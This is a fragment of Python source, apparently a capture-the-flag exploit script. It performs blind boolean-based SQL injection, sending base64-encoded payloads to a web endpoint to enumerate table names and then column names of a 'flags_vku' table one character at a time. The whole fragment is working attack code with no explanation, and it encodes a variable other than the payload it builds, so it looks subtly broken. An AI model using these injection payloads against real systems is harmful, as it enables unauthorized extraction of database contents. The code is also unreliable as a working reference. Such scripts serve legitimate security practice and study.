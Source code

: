 ```python
    data = {
        "data": encoded_data
    }
    json_data = json.dumps(data)

    response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
    response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
    response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
    response_data = json.loads(response_result.text)
    print(payload)
    if response_data == "EMPTY":
        break
    length_table+=1
#GET TABLE 
table_string=""
for i in range(1,length_table+1):
    for char in list_wordlist:
        payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT(TABLE_NAME)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = database()), {i}, 1) = '{char}') ; ##"
        encoded_data = base64.b64encode(dataClear.encode()).decode()
        data = {
            "data": encoded_data
        }
        json_data = json.dumps(data)

        response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
        response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
        response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
        response_data = json.loads(response_result.text)
        print(payload)
        if response_data == "EMPTY":
            table_string+=char
            break
table = table_string.split(",")
print(f"table is {table}")
for table_child in table:
    if table_child != 'flags_vku':
        continue
    #GET LENGHT COLUMNS
    lenght_colums=0
    while True:
        payload = f"users 123' OR (SELECT LENGTH(GROUP_CONCAT(COLUMN_NAME)) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '{table_child}') = {lenght_colums} ; ##"
        encoded_data = base64.b64encode(dataClear.encode()).decode()
        data = {
            "data": encoded_data
        }
        json_data = json.dumps(data)

        response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
        response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
        response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
        response_data = json.loads(response_result.text)
        print(payload)
```